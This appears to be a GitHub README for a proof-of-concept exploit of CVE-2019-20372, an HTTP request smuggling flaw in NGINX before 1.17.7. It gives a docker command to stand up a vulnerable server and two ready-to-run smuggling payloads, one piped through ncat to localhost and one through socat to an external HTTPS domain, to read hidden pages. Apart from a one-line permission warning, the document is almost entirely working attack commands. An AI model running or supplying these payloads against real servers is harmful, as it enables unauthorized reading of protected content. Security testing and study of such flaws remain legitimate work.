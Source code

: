 # nginx0-smuggler (CVE-2019-20372)

> [!NOTE]\
> Do not use this on an server you don't own or dont have permission to test on.

NGINX before 1.17.7, with certain error_page configurations, allows HTTP request smuggling, as demonstrated by the ability of an attacker to read unauthorized web pages in environments where NGINX is being fronted by a load balancer.

docker container to recreate an vuln server in the localhost:
```
docker run -it --rm -p 80:80 -v ./default.conf:/etc/nginx/conf.d/default.conf nginx:1.14.0
```
### payload for port 80 (HTTP)
```
cat <(printf "GET /a HTTP/1.1\r\nHost: localhost\r\nContent-Length: 56\r\n\r\nGET /_hidden/index.html HTTP/1.1\r\nHost: notlocalhost\r\n\r\n") - | ncat localhost 80
```

### payload for port 443 (HTTPS)
```
cat <(printf 'GET / HTTP/1.1\r\nHost: vigneshsb.fun\r\n\r\nGET /404 HTTP/1.1\r\nHost: localhost\r\n\r\n') - | socat - SSL:vigneshsb.fun:443
```
